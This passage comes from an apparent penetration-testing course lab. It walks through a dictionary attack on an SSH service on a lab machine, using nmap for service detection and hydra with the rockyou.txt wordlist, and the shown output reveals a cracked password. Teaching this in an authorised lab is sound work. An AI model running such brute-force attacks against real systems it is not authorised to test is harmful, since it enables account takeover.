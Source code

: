 To begin, we will start the BRUTE machine (VM #1 under Resources). In the first example, we'll attack the SSH service (port 2222) on this machine, which has an IP address of 192.168.50.201. We'll attempt to determine the password for the user _george_.

The IP address of BRUTE may differ in your environment.

Before we start our dictionary attack, we should confirm that the target is running an SSH service on port 2222.

```
kali@kali:~$ sudo nmap -sV -p 2222 192.168.50.201
...
PORT   STATE SERVICE
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
```

> Listing 1 - Checking if target is running a SSH service

The output indicates that SSH is open. Let's assume that through the _information gathering process_ we have already discovered the _george_ user.

It's worth noting that the format of the username also suggests that the company may use the first name of the user for account names. This information may assist us in later information gathering attempts.

Next, let's prepare to use the **rockyou.txt** wordlist file. Since the file is compressed to save space, we must uncompress it with [**gzip -d**](https://www.gnu.org/software/gzip/). Finally, we can run **hydra**.

We'll attack a single username with **\-l george**, specify the port with **\-s**, indicate our password list with **\-P** and define our target with **ssh://192.168.50.201**:

```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```

> Listing 2 - Unzipping Gzip Archive and attacking SSH

Good. We successfully used Hydra to discover a valid login for the _george_ user.

The dictionary attack worked because the password was contained in the **rockyou.txt** wordlist and we knew the name of the user we wanted to attack. However, if we didn't have valid usernames, we would use enumeration and information gathering techniques to find them. Alternatively, we could also attack built-in accounts such as _root_ (on Linux) or _Administrator_ (on Windows).
